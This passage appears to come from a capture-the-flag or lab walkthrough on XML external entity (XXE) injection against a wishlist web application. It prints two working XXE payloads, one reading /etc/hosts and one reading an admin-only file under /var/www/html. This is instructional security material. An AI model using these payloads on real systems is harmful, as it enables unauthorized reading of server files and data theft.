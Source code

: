 ```php
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>

```

The line <**!ENTITY payload SYSTEM "/etc/hosts">** tells the XML parser to replace the **&payload;** reference with the contents of the file **/etc/hosts** on the server. When the XML is processed, instead of a normal **product_id**, the application will try to load and include the contents of the file specified in the entity (`/etc/hosts`).

### Exploitation:

![image.png](images/image%207.png)

Earlier, we discovered a page accessible only by administrators, which seems like an exciting target. We can try and use XXE to access the wishes page.

We can now try and access the page that is only accessible by admins - `/wishes/wish_1.txt`. Using this path, we just need to guess the potential absolute path of the file. Typically, web applications are hosted on `/var/www/html`. With that in mind, let's build our new payload to read the wishes while leveraging the vulnerability.

```php
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>

```
